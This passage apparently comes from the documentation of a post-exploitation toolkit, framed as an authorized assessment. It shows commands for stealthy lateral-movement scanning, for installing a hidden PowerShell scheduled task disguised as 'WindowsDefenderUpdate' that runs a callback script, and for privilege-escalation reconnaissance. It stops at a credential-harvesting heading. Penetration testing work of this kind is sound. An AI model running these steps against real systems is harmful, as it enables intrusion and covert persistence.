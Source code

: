 ```bash
    --targets-file discovered_hosts.txt \
    --scan all \
    --output lateral_findings.json

# Adjust concurrency for stealth
python post_exploitation/lateral_movement.py \
    --target 10.0.0.0/24 \
    --scan all \
    --workers 5 \
    --output stealthy_scan.json
```

**Output**: JSON file with accessible hosts, open ports, SMB shares, vulnerabilities

## Full Attack Chain Workflow

This example demonstrates a complete post-exploitation assessment workflow.

### Scenario

**Target**: Windows domain environment (authorized security assessment)
**Goal**: Assess post-exploitation security posture from user-level access

### Phase 1: Establish Persistence

```bash
# Check for existing persistence mechanisms
python post_exploitation/persistence.py --check --output initial_persistence.json

# Install authorized persistence for testing continuity
python post_exploitation/persistence.py \
    --install scheduled_task \
    --command "powershell.exe -WindowStyle Hidden -File C:\\Tools\\callback.ps1" \
    --name "WindowsDefenderUpdate" \
    --output persistence_installed.json
```

### Phase 2: Privilege Escalation Reconnaissance

```bash
# Scan for privilege escalation vectors
python post_exploitation/privesc_scanner.py \
    --scan-all \
    --output privesc_findings.json

# Review findings (example)
# Found: Unquoted service path C:\Program Files\Custom App\service.exe
# Found: AlwaysInstallElevated enabled in registry
# Found: Token privilege SeImpersonatePrivilege enabled
```

### Phase 3: Credential Harvesting
